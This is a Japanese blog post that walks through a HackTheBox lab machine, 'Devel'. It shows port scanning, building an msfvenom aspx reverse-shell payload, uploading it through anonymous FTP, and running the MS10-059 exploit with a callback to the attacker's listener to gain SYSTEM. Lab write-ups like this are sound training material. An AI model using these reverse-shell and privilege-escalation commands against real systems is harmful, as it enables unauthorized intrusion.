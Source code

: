 ```yaml
---
title:【Easy/Windows】Devel Writeup(HackTheBox)
date: "2022-07-23"
template: "post"
draft: false
slug: "hackthebox-windows-devel"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Devel」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="../../static/media/2022-07-23-hackthebox-devel/327080.png" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「Devel」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [内部探索](#内部探索)
- [権限昇格](#権限昇格)
- [まとめ](#まとめ)

## 探索

とりあえずいつも通りポートスキャンを仕掛けます。

結果、どうやらFTPのAnonymousログインが可能なようです。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.5  targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

また、80番ポートではIISが稼働していました。

![image-20220723114718813](../../static/media/2022-07-23-hackthebox-devel/image-20220723114718813.png)

FTPのAnonymousログインが可能だったので、msvenomで作成したASPのペイロードをWebサーバに埋め込み、リバースシェルを取得しました。

``` bash
$ LHOST=`ip addr | grep -E -o "10.10.([0-9]{1,3}[\.]){1}[0-9]{1,3}"`
$ msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -o rev.aspx

$ echo open 10.10.10.5 > ftp.txt && echo user anonymous >> ftp.txt && echo binary >> ftp.txt && echo put rev.aspx >> ftp.txt && echo quit >> ftp.txt
$ ftp -n < ftp.txt
```

これでシェルが取得できました。

## 内部探索

シェルが取得できたものの、悲しいことに`iis apppool\web`というよわよわ権限でした。

というわけで、権限昇格の手掛かりを探していきます。

とりあえず端末情報を見てみると、Windows7のマシンであることがわかりました。

![image-20220723203944396](../../static/media/2022-07-23-hackthebox-devel/image-20220723203944396.png)

内部のタスクやファイルを探索したものの使えそうなものはなかったので、端末の脆弱性を探すことにしました。

``` bash
$ python windows-exploit-suggester.py --database 2022-07-23-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

## 権限昇格

前項で脆弱性を特定することができました。

とりあえず`wwwroot`配下にはFTPでファイル書き込みが可能なので、刺さりそうなエクスプロイトをいくつか試してみました。

最終的に[MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)のPoCで上手くいきました。

``` bash
# ファイル転送
echo open 10.10.10.5 > ftp.txt && echo user anonymous >> ftp.txt && echo binary >> ftp.txt && echo put MS10-059.exe >> ftp.txt && echo quit >> ftp.txt
ftp -n < ftp.txt

# Exploit
MS10-059.exe 10.10.14.2 9999
```

これでSystem権限を取得できます。

``` bash
c:\inetpub\wwwroot>whoami
whoami
nt authority\system
```

## まとめ

簡単な問題だとさくさく解けるので気持ちいいですね。